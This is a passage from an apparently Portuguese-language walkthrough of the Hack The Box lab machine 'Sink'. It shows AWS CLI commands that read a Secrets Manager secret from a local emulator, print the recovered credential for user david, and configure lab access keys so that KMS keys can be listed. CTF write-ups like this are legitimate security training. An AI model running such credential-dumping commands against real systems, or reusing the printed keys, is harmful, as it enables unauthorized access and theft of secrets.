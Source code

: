Com as informações obtidas, podemos obter os valores dos secrets.

```bash
marcus@sink:~$ aws --endpoint-url="http://127.0.0.1:4566/" secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-HRbzR"
```

<img src="/htb/htb-sink-23.png">

E conseguimos a credencial do usuário david:david:EALB=bcC=`a7f2#k.

Vamos fazer o movimento lateral.

<img src="/htb/htb-sink-24.png">

Dentro do diretório do usuário david, encontrei o arquivo `servers.enc` no diretório `/home/david/Projects/Prod_Deployment`.

<img src="/htb/htb-sink-25.png">

Este arquivo está encriptado, pois é uma criptografia `server-side` da aws. Para conseguir abrí-lo, precisamos da key correta, novamente utilizaremos as configurações da aws.

```bash
david@sink:~/Projects/Prod_Deployment$ aws configure
AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: us
Default output format [None]: json
```

Agora podemos listar as `keys`.

```bash
david@sink:~/Projects/Prod_Deployment$ aws --endpoint-url="http://127.0.0.1:4566/" kms list-keys
```
